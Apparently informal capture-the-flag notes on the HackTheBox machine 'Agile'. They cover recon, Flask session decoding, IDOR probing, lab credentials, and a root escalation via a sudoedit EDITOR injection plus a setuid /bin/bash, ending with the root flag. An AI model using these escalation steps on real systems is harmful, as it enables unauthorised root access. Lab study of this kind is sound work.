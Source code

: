 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


port 80 is open

echo "10.10.11.203 superpass.htb" >> /etc/hosts

on account login we have sql alchemy

![](20230627071229.png)

when searching for vault and flask it seemse there is vault-consul flask repo taht is being used

```
sqlalchemy.exc.OperationalError: (pymysql.err.OperationalError) (2006, "MySQL server has gone away (BrokenPipeError(32, 'Broken pipe'))")
[SQL: SELECT users.id AS users_id, users.username AS users_username, users.hashed_password AS users_hashed_password 
FROM users 
WHERE users.username = %(username_1)s 
 LIMIT %(param_1)s]
[parameters: {'username_1': 'root', 'param_1': 1}]
(Background on this error at: https://sqlalche.me/e/14/e3q8)
```

we can check for sql injection here

continuing with enumerating the directories

we can use wapalyzer to look into the tech stack used for the website

Popper
jQuery 3.3.1
_hyperscript
Htmx
Bootstrap 4.1.3

![](20230628021152.png)

There is no injection in this vault.

trying in burpsuite

GET /vault HTTP/1.1
Host: superpass.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://superpass.htb/account/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwPlw.tht5dBfc0fqoWx__ELOSGA9bCaw
Connection: close


POST /v1/leaks:lookupSingle HTTP/1.1
Host: passwordsleakcheck-pa.googleapis.com
Content-Length: 43
X-Goog-Api-Key: dummytoken
Content-Type: application/x-protobuf
Sec-Fetch-Site: none
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


  !ßÜºd¨êÕBà#ð0ÀE:m ÀPÙ^'­wªÄ


### things to learn

cookie unsign in flask-unsign

or using the site
https://www.kirsle.net/wizards/flask-session.cgi

```
{
    "_fresh": true,
    "_id": "f1758cd40a69e453c79b8f231b7bfa827162a260ddf6d0c8f913e92be25a87b35c36a745c4783f6cdcf56abcc4610d9e99b22dfea4359e9fd115001c23fe74b4",
    "_user_id": "10"
}

```

GET /vault/edit_row/10 HTTP/1.1
Host: superpass.htb
HX-Request: true
HX-Current-URL: http://superpass.htb/vault
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: */*
Referer: http://superpass.htb/vault
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwkuw.A-ubmOw9-8SGSA7Ci5BQ6zf2hpw
Connection: close


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 28 Jun 2023 12:18:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 690

<tr>
    <td>
        
        <a hx-post="/vault/update/10" 
            hx-include="closest tr"
            hx-trigger="click, keydown[key=='Enter'] from:closest tr">
            <i class="fas fa-save"></i>
        </a>
        <a hx-get="/vault/row/10" 
            hx-trigger="click, keydown[key=='Escape'] from:closest tr">
            <i class="fas fa-undo"></i>
        </a>
        
    </td>
    <td><input type="text" name="url" placeholder=" site" value="asdfsd" /></td>
    <td><input type="text" name="username" placeholder=" username" value="asdfsada" /></td>
    <td><input type="text" name="password" placeholder=" password" value="865b8919c771sdfasdf4dd5bf9f" /></td>
</tr>

we can try and bruteforce to edit the row endpoints

![](20230628082901.png)

But none of that seems to be working.

Ideally I should have gotten 
corum and 
5db7caa1d13cc37c9fc2


![](20230630022009.png)

found out that there is an experimental server here

after netstat pantu

and using chisel brought it ot localhost

at /vaulr/row/1

i should have found edwards password but i didnt


agile edwards d07867c6267dcb5df0af

[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt


edwards@agile:~$ export EDITOR='vim -- /app/venv/bin/activate'
edwards@agile:~$ sudo -u dev_admin sudoedit /app/config_test.json

chmod u+s /bin/bash

edwards@agile:~$ bash -p
root@agile:~# whoami
root
root@agile:~# cat /root/root.txt
d096bf0665aa1d99f6d85b854496baa6
